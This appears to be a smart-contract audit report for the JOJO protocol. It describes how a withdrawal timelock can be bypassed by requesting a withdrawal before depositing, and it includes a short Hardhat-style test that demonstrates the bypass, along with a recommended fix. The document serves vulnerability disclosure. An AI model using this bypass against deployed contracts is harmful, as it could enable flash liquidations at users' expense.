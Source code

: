immeas

medium

# withdraw timelock can be bypassed

## Summary
The timelock for a withdraw can be bypassed by registering a withdraw before you do your deposit.

## Vulnerability Detail
There is a timelock when doing withdraws so that you cannot withdraw directly after doing a deposit. There is however no check that a user has a deposit when registering a withdraw. A user can thus register a withdraw long before using it. Thus gaining the ability to deposit and withdraw in the same tx.

PoC, add this to `withdraw` in `fund-test.ts`:
```javascript
    it("bypass timelock", async () => {
      await context.dealer.setWithdrawTimeLock("100");
      const state = await context.dealer.state();
      expect(state.withdrawTimeLock).to.equal("100");

      let d = context.dealer.connect(trader1);
      await d.requestWithdraw(
        utils.parseEther("100000"),
        0
      );
      
      await timeJump(101);

      await d.deposit(
        utils.parseEther("100000"),
        0,
        trader1Address
      );
      await d.executeWithdraw(trader1Address, false);

      await checkPrimaryAsset(context, trader1Address, "1000000");
    });
```

## Impact
A user can bypass the withdraw timelock. This can open up unwanted flash liquidations.

## Code Snippet
https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Funding.sol#L89-L93

## Tool used
Manual Review

## Recommendation
When registering a withdrawal, make sure the user has at least that amount deposited.